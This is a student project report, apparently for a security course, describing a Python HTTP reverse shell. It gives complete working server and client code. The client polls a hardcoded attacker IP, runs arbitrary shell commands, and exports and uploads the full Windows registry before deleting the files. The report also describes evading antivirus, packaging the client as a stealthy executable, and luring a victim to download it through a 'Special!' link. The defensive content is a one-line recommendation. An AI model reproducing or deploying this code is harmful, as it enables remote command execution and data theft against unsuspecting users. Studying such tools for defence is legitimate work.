

---
title: "HTTP Reverse Shell Report"
author: [Jordan Sosnowski, John Osho]
date: "2019-11-07"
subject: "Markdown"
keywords: [Markdown, Example]
lang: "en"
titlepage: "true"
book: "true"
titlepage-rule-color: "FFFFFF"
titlepage-background: "./background9.pdf"
...

# Executive summary

For this project we were tasked with producing a Python reverse HTTP shell. 
Following a server-client model; our exploit allows the server to export the clients entire registry without an anti-virus flagging the process as malicious. 
The exploit needs to be downloaded to the clients machine using a webserver hosted by the server. 
In addition to this the exploit needs to be compiled to an executable.

# Introduction

## A. Problem statement

With this project multiple steps went into it.
First, an understanding of how socket programming works is needed.
The Python library *requests* was used to aid in this task.
In addition to socket programming, a process to compile the clients source code to an executable is required.
Once the basic connection was established between the server and client the command, to export the registry, was needed.
After exporting the registry to text files we needed a process to export the data from the victims machine to the server.
Optionally, we need the process to clean up traces of its work.
We used *PyInstaller*, an additional Python library, to compile to an executable.
During the coding process it was imperative that we kept in mind that we could not be flagged by Windows Defender, Window's default anti-virus program.
The last hurdle, and the easiest, was establishing a simple web server to distribute the executable to the client's machine.

## B. Definition of terms

### Data exfiltration

This is an unauthorized copying, transfer or retrieval of data from a computer or server.

### A web server

This is software or hardware established to satisfy web requests.
It uses HTTP (Hypertext Transfer Protocol) to serve the files (such as text, images, video, and application data) to clients that request the data.
These files, with the aid of web languages HTML, JavaScript, CSS, form web pages such as <www.google.com> and <www.auburn.edu>

### Windows executable (.EXE)

An windows executable is a program file capable of running on Microsoft Windows, 32-bit or 64-bit.

### A reverse shell

A type of shell where target machine communicates back to an attacking machine listening on a port for the connection.

### Anti-virus software (anti-malware)

This is a software that detects, prevents, and removes viruses, worms,
and other malware from a computer.

## C. Python code Explanation

### Executable file conversion

```bash
pyinstaller --onefile client.py
```

> "PyInstaller freezes (packages) Python applications into stand-alone executables..."

Using PyInstaller we are able to compile our client module into a stand alone executable
that will run regardless if Python or the dependencies are installed on the victim system.

Using the `--onefile` flag, compiles the executable statically, meaning all the libraries that it uses
are apart of the final exe instead of library files to be linked dynamically.

If we did not provide the `--onefile` flag, we would have to transfer over any needed libraries required by the final executable.

For instance, running **pyinstaller client.py** produces a **python37.dll**, **libssl-1_1.dll**, and others. Since we are trying to produce an executable that is stealthily it is better to link all these files statically, especially since we do not know if they will be on the final machine or not.

### Webserver setup

```bash
python -m http.server
```

Since the main objective of this project was to build a Python platform that can perform a reverse shell and not to actually convince the user to download a malicious program we decided simple to use the default http server built into Python.

Using this by default, without a provided index.html, it will display it's host files for its current working directory.

We created a very basic index.html to allow the "user" easier access to downloading the payload. Below is our index.html. As one can see it is just a simple relative link to the payload.

``` html
    <center>
        <a href="./dist/client.exe">Special!</a>
    </center>
```

### Python (windows executable) download

On the victims machine if they direct the web browser of their choice to
the attacker's IP at port **8000** they can access the web server. For example when running our tests my attacker's IP was **172.19.69.245**. Therefore, to access the web server the victim would need to go to **<http://172.19.69.245:8000>**. From there they can click the *Special!* link and accept the download.

### Python (windows executable) evasion

During the download Windows Defender should not flag the executable as malicious. When checking our executable against Virus Total, a popular site to see if a file is malicious or not, only 2 out of 69 popular anti-virus providers flagged the payload.

However, when executing it Windows will raise a pop up warning the intended victim that this executable is not signed and cannot be verified. Most applications are signed by trusted certificate authorities to ensure that the application came from a trusted source. However, many open source projects do not have the funding to buy signatures so it is not uncommon for non-malicious files to not be signed.



### Python (windows executable) execution

Reverse shell initial connection

Once the payload is executed on the victims machine it immediately sends a `GET` request to the attacker.

```python
IP = 'http://' + '172.19.69.245' + ':8080'
...
req = requests.get(IP)
command = req.text
```

Once that `GET` request is received by the attacker its `ReverseShellHandler` which is currently serving port 8080 will respond.
If the `ReverseShellHandler` class provides its implementation for `GET` called `do_GET(self)` the `ReverseShellHandler` object will call it.

Inside `do_Get(self)` if the server is set to manual it will request input from the attacker. After input is provided, it will be send back to the victim's
machine for processing. If the server is not set to manual then it will send `!` to the victim.

```python
def do_GET(self):
    """
    When the server is hit with a GET request
    it requires input from the attacker that will
    be sent back to the victims machine

    If manual, allow input from user
    If not manual, run registry export

    """

    if MANUAL:
        command = input(Fore.YELLOW + ">> ")
        print(Style.RESET_ALL)
    else:
        command = '!'

    # boilerplate http
    self.send_response(200)
    self.send_header("Content-type", "text/html")
    self.end_headers()

    # send command to victim machine
    self.wfile.write(command.encode())
```

Manual is determined by the amount of command line arguments send to **server.py** when it is ran. By default server.py will have one command line argument,
the path of itself. But, if the attacker provides any commands at all manual will be set to False.

```python
if len(sys.argv) == 2:
    MANUAL = True
else:
    MANUAL = False

```

### Registry file export

If the victim's machine receives `!` from the server it will run the registry file export function, `pull_registry()`. From there it uses the Windows batch command `reg export` to export the registry keys. Each hive will have be exported by themselves, there are six main hives. For each `reg export` call a output file with the name of the hive is produced. Immediately following the creation of the registry file it is sent to a zip file called **reg.zip**. After the file is added to the zip archive, it is removed from the victims machine.

```python
def pull_registry():
    """
    Using windows reg export batch command exports all registry
    keys (other than ones requiring admin access like SAM). Following
    the exporting of the registry to files, those files will be zipped,
    removed, and then sent back to the server.
    """
    hives = ['HKEY_CLASSES_ROOT', 'HKEY_CURRENT_USER',
            'HKEY_LOCAL_MACHINE', 'HKEY_USERS', 'HKEY_CURRENT_CONFIG']

    zipfile = 'reg.zip'
    with ZipFile(zipfile, 'w') as zip:
        for key in hives:
            fname = f"bkReg_{key}.reg"
            filenamepath = f"{fname}"
            regkk = f"reg export {key} {filenamepath}"
            os.system(regkk)
            zip.write(filenamepath)
            os.remove(filenamepath)
```

### Registry file exfiltration

After each hive is exported and added to the **reg.zip** archive, the zip file is sent back to the attacker's server with `send_file(command)`.

```python
# path to zip file containing reg keys, start with `^ `
send_file(f'^ ./{zipfile}')
```

`send_file(command)` takes in a string that starts with a `^`. `^` is used to determine which path the intial logic should take. This is the same reason for using `!` to tell the victims machine to run the registry export. After the `^`, a file path is provided. This file path is the file that is being requested to be sent back to the attacker's server. In this case the `command` variable would be equal to `^ ./reg.zip`.

The victim machine will use the requests library in the same way that it made its initial `GET` request except this time it will make a `POST` request and also state
that it is sending a file not just data. If the file path does not exist or could not be accessed the victim will send back an error message to notify the attacker something has gone wrong.

```python
def send_file(command):
    """
    Sends requested file back to server

    args:
        command (str): string containing path to file
        to send to server

        uses format `^ file_path`

    """
    path = command[2:]
    print(f"Pulling file: {path}")

    if os.path.exists(path):
        url = IP + '/store'  # Append /store in the URL
        # Add a dictionary key where file will be stored
        files = {'file': open(path, 'rb')}
        r = requests.post(url, files=files)  # Send the file
        # requests library use POST method called "multipart/form-data"
    else:
        post_response = requests.post(
            url=IP, data='[-] Not able to find the file !')
```

After the file is sent back to the server, the server's `ReverseShellHandler` is called again. This time it requires an implementation of `POST` found in `do_POST(self)`. In do post the server first checks to see if **/store** has been appended to the path. If so it is an indication that the victims machine is sending back a file. If this is the case it will need to use `cgi` to parse the request header's and then cgi's `FieldStorage` to parse the data sent back. Without using `cgi` and `FieldStorage` it would be much more difficult to return the file to its original format and since a zip archive is a binary file it needs to have its header and footer information exact for the attacker to be able to unzip it. After parsing the file, the server sends a reply back to the victim to notify that the data was received. The attacker can now unzip the **reg.zip** archive now on their machine and retrieve the victim's registry keys.

If **/store** was not appended then the data sent by the victim would be printed to standard output on the attacker's machine. For example if manual mode was set the attacker could send `dir` to the victim and the victim would send to the attacker the current directory's contents. Once the data is received by the attacker it would be printed to his screen, giving him essentially a pseudo shell.

```python
def do_POST(self):
    """
    When the server is hit with a POST request it will
    first check to see if the path has been appended with /store
    meaning that it is sending a file back. If so the file parsed
    and returned to its original format using FieldStorage and is saved.

    Otherwise if store is not in the path the data from the POST is printed out
    """
    if self.path == '/store':  # Check whether /store is appended or not

        ctype, _ = cgi.parse_header(
            self.headers['content-type'])
        if ctype == 'multipart/form-data':
            fs = cgi.FieldStorage(fp=self.rfile, headers=self.headers, environ={
                'REQUEST_METHOD': 'POST'})

        # Here file is the key to hold the actual file, same key as the one set in client.py
        fs_up = fs['file']

        # Create new file and write contents into this file
        with open(fs_up.filename, '+wb') as o:
            o.write(fs_up.file.read())
            self.send_response(200)
            self.end_headers()
        return

    self.send_response(200)
    self.end_headers()

    # Define the length which means how many bytes the HTTP POST data contains
    length = int(self.headers['Content-Length'])

    postVar = self.rfile.read(length).decode()

    print(Fore.GREEN + postVar, end='')
    print(Style.RESET_ALL)
```

Returning to the victim's machine. After the call to `send_file(command)`, the victims machine will then remove the `reg.zip` archive.

```python
    os.remove(f'./{zipfile}')
```

### Reverse shell termination

After the call to `pull_registry()`, code execution returns to main. Following the call `break` is called and the while loop exits killing the connection to the victim.

If `^` or anything other than `t`, `terminate`, or `!` was provided the while loop runs again to get an additional command from the server.

```python
def main():
    """
    Main logic loop

    Based on input from server runs either:

            pulls specified file
            exports registry
            run specified command
    """

    while True:

        # Setup connection to attacker
        # Send GET request to host machine
        req = requests.get(IP)
        command = req.text

        print(f"Status Code: {req.status_code}")

        if command in {'terminate', 't'}:
            print("Terminating Connection")
            break
        elif '!' in command:
            pull_registry()
            break
        elif '^' in command:
            send_file(command)
        else:
            run_process(command)
        print(f"Status Code: {req.status_code}")
        time.sleep(2)
```

# Conclusion

# Recommendations

There are a few recommendations that could be put in place to stop attacks like this.
First limit upload traffic.
For instance when testing on a fresh Windows 10 install the full registry export was 190 MB.
It is uncommon for uploads to be that large. 

# Appendix

## Server Code

``` python
#!/usr/bin/env python3

import socketserver
import http.server
import cgi
from colorama import Fore, Back, Style
import sys

PORT = 8080
"""
Authors: Jordan Sosnowski and John Osho
Date: November 1, 2019

HTTP Reverse Shell Server
"""

# if user provides command line param manual true
if len(sys.argv) == 2:
    MANUAL = True
else:
    MANUAL = False


class ReverseShellHandler(http.server.BaseHTTPRequestHandler):
    """
    Custom Class that inherits from the base http handler

    Defines GET and POST methods

    """

    def do_GET(self):
        """
        When the server is hit with a GET request
        it requires input from the attacker that will
        be sent back to the victims machine

        If manual, allow input from user
        If not manual, run registry export

        """

        if MANUAL:
            command = input(Fore.YELLOW + ">> ")
            print(Style.RESET_ALL)
        else:
            command = '!'

        # boilerplate http
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()

        # send command to victim machine
        self.wfile.write(command.encode())

    def do_POST(self):
        """
        When the server is hit with a POST request it will
        first check to see if the path has been appended with /store
        meaning that it is sending a file back. If so the file parsed
        and returned to its original format using FieldStorage and is saved.

        Otherwise if store is not in the path the data from the POST is printed out
        """
        if self.path == '/store':  # Check whether /store is appended or not

            ctype, _ = cgi.parse_header(
                self.headers['content-type'])
            if ctype == 'multipart/form-data':
                fs = cgi.FieldStorage(fp=self.rfile, headers=self.headers, environ={
                    'REQUEST_METHOD': 'POST'})

            # Here file is the key to hold the actual file, same key as the one set in client.py
            fs_up = fs['file']

            # Create new file and write contents into this file
            with open(fs_up.filename, '+wb') as o:
                o.write(fs_up.file.read())
                self.send_response(200)
                self.end_headers()
            return

        self.send_response(200)
        self.end_headers()

        # Define the length which means how many bytes the HTTP POST data contains
        length = int(self.headers['Content-Length'])

        postVar = self.rfile.read(length).decode()

        print(Fore.GREEN + postVar, end='')
        print(Style.RESET_ALL)

def main():
    with socketserver.TCPServer(("", PORT), ReverseShellHandler) as httpd:
        print(f"serving at port {PORT}")
        try:
            httpd.serve_forever()
        except KeyboardInterrupt:
            print("Server is terminated")
            httpd.server_close()
```

### Client Code

``` python
#!/usr/bin/env python3

from zipfile import ZipFile
import http.client
import subprocess
import time
import requests
import os

IP = 'http://' + '172.19.69.245' + ':8080'

"""
Authors: Jordan Sosnowski and John Osho
Date: November 1, 2019

HTTP Reverse Shell Client
"""


def pull_registry():
    """
    Using windows reg export batch command exports all registry
    keys (other than ones requiring admin access like SAM). Following
    the exporting of the registry to files, those files will be zipped,
    removed, and then sent back to the server.
    """
    hives = ['HKEY_CLASSES_ROOT', 'HKEY_CURRENT_USER',
            'HKEY_LOCAL_MACHINE', 'HKEY_USERS', 'HKEY_CURRENT_CONFIG']

    zipfile = 'reg.zip'
    with ZipFile(zipfile, 'w') as zip:
        for key in hives:
            fname = f"bkReg_{key}.reg"
            filenamepath = f"{fname}"
            regkk = f"reg export {key} {filenamepath}"
            os.system(regkk)
            zip.write(filenamepath)
            os.remove(filenamepath)

    # path to zip file containing reg keys, start with `^ `
    send_file(f'^ ./{zipfile}')

    os.remove(f'./{zipfile}')


def send_file(command):
    """
    Sends requested file back to server

    args:
        command (str): string containing path to file
        to send to server

        uses format `^ file_path`

    """
    path = command[2:]
    print(f"Pulling file: {path}")

    if os.path.exists(path):
        url = IP + '/store'  # Append /store in the URL
        # Add a dictionary key where file will be stored
        files = {'file': open(path, 'rb')}
        r = requests.post(url, files=files)  # Send the file
        # requests library use POST method called "multipart/form-data"
    else:
        post_response = requests.post(
            url=IP, data='[-] Not able to find the file !')


def run_process(command):
    """
    Runs local process on machine

    args:
        command (str): command to run on machine

        i.e. ls, dir, cat /etc/hosts
    """

    print(f"Running command: {command}")

    # ouptut needs to be captures as we are sending the std out and error back
    cmd = subprocess.run(command, capture_output=True, shell=True)

    # only send out and err if they exist, limits post requests back to server
    out = cmd.stdout.decode()
    err = cmd.stderr.decode()
    if out:
        post_response = requests.post(
            url=IP, data=out)
    if err:
        post_response = requests.post(
            url=IP, data=err)


def main():
    """
    Main logic loop

    Based on input from server runs either:

            pulls specified file
            exports registry
            run specified command
    """

    while True:

        # Setup connection to attacker
        # Send GET request to host machine
        req = requests.get(IP)
        command = req.text

        print(f"Status Code: {req.status_code}")

        if command in {'terminate', 't'}:
            print("Terminating Connection")
            break
        elif '!' in command:
            pull_registry()
            break
        elif '^' in command:
            send_file(command)
        else:
            run_process(command)
        print(f"Status Code: {req.status_code}")
        time.sleep(2)


if __name__ == "__main__":
    main()
```
